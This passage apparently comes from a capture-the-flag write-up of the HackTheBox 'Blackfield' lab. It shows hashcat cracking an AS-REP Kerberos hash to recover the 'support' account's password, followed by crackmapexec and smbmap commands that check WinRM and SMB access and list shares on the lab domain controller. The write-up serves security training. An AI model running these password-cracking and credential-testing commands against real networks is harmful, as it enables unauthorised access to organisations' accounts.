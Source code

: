 After saving the hash to a file, I'll send it to Hashcat for cracking.
Using the basic `rockyou.txt` word list, it breaks fairly quickly:



    root@kali# hashcat -m 18200 svc.asrep.hash /usr/share/wordlists/rockyou.txt --force
    hashcat (v5.1.0) starting...
    ...[snip]...
    $krb5asrep$23$support@BLACKFIELD.LOCAL:83f252224f04becb3108d7234f0fcd94$0f355b4ad7b813039520ec6ed1f451575c79c313a3779707b24fd8824aa74d9d4fda352599ad767167ade44f4f6a67b6e0d54016e26502ab618b0d7791a40ffc60480703a1cd6bd5ae68078ab9589a91284966a54fc6134ae52f8efc41164386e4e251b41aa09f46616d53c103216d3c3e0560c5e822937ad3b4f61527c9d4fb63664abd2888d2c379340baf682a38491978c9e63d151fc54725e969df94a34f996849c439ff6953a5c9747774d6878ff5555b8c6af1415ec3c141206c460f2d4949456f429d766072d0d348b30d642e521b14cf9cef4bc8d01da69bd3995b4019ee5bbbb024346ea7786474980ec6b1bb9d13c0:#00^BlackKnight
    ...[snip]...



Creds: support / #00\^BlackKnight

### Access Check

With these creds, I'll see what kind of access I just acquired.
Unsurprisingly, support does not have WinRM access:



    root@kali# crackmapexec winrm 10.10.10.192 -u support -p '#00^BlackKnight'
    WINRM       10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
    WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD\support:#00^BlackKnight "Failed to authenticate the user support with ntlm"



These creds do work for SMB:



    root@kali# crackmapexec smb 10.10.10.192 -u support -p '#00^BlackKnight'
    SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
    SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 



It looks like I've gained READ ONLY access to the `NETLOGON` and
`SYSVOL` shares:



    root@kali# smbmap -H 10.10.10.192 -u support -p '#00^BlackKnight'
    [+] IP: 10.10.10.192:445        Name: unknown                                           
            Disk                                                    Permissions     Comment
            ----                                                    -----------     -------
            ADMIN$                                                  NO ACCESS       Remote Admin
            C$                                                      NO ACCESS       Default share
            forensic                                                NO ACCESS       Forensic / Audit share.
            IPC$                                                    READ ONLY       Remote IPC
            NETLOGON                                                READ ONLY       Logon server share 
            profiles$                                               READ ONLY
            SYSVOL                                                  READ ONLY       Logon server share
